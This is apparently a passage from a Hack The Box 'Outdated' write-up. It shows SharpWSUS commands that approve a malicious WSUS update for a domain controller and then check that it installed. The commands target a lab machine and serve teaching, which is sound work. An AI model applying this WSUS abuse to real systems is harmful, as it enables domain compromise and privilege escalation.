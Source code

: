 ![WSUS create](/assets/hackthebox/outdated/WSUS_create.png)

We should add a DC to a group, which will be affected by our patch. We have an `approve` command to do that.

```powershell
cmd /c 'SharpWSUS.exe approve /updateid:<updateid> /computername:dc.outdated.htb /groupname:"Group Name"'
```

Now, we have to wait a bit to get the update installed on the DC. There is a `check` command in SharpWSUS tool to check if the update is installed.

```powershell
cmd /c 'SharpWSUS.exe check /updateid:<updateid> /computername:dc.outdated.htb'
```
